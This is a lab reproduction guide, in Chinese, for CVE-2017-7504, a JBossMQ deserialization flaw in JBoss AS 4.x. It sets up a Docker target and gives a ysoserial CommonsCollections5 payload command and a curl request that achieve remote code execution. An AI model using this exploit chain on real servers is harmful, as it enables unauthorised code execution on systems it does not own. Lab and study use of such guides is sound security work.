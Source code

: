 # JBoss 4.x JBossMQ JMS 反序列化漏洞 CVE-2017-7504

## 漏洞描述

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

参考：

- https://github.com/joaomatosf/JavaDeserH2HC
- https://www.youtube.com/watch?v=jVMr4eeJ2Po

## 环境搭建

Vulhub执行如下命令启动JBoss AS 4.0.5：

```
docker-compose up -d
```

环境启动后，目标为`http://your-ip:8080`。

## 漏洞复现

该漏洞出现在`/jbossmq-httpil/HTTPServerILServlet`请求中，我们借助ysoserial的eCommonsCollections5利用链来复现。生成Payload：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "touch /tmp/success" > 1.ser
```

我们将1.ser文件内容作为POST Body发送：

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```

执行`docker-compose exec jboss bash`进入容器，可见`/tmp/success`已成功创建。